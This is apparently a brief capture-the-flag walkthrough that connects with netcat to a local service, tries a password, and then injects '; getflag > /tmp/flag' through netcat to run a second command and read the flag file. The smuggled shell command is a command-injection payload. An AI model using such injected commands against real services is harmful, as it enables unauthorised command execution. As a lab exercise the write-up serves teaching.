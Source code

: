 ### Documentation
[SHA](https://sha1.gromweb.com/?string=NotSoEasy)

### Process
1. `nc 127.0.0.1 5151`
    ```
    Password: test
    Erf nope..
    ```

2.  `echo "; getflag > /tmp/flag" | nc 127.0.0.1`

3. `cat /tmp/flag`